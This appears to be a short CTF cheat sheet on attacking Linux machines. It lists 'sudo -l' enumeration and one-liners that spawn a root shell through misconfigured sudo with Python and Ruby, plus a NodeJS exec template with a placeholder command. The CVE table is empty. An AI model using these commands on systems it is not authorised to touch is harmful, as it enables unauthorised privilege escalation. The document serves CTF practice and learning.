# Attacking Linux Boxes

### Most Common CVEs used on CTFs
| # | CVE | Description |
| --- | --- | --- |

### Post Exploitation - Prev. Esculation

*Enumerate Misconfigured `sudo`*
Run this command to see what programs you has access to using sudo.
```
sudo -l
```

*Exploiting Misconfigured `sudo`*
| # | Language | Commands |
| --- | --- | --- |
| 1 | Python | `sudo python3 -c 'import os; os.system("/bin/bash")'`
| 2 | Ruby | `sudo ruby -e 'system("/bin/bash")'` |
| 3 | NodeJS | `node -e '[...]()'` |

*NodeJS Privilage Exculation Script*
```Javascript
var exec = require('child_process').exec;
exec('[COMMAND]', function (error, stdOut, stdErr) {
console.log(stdOut);
});
```
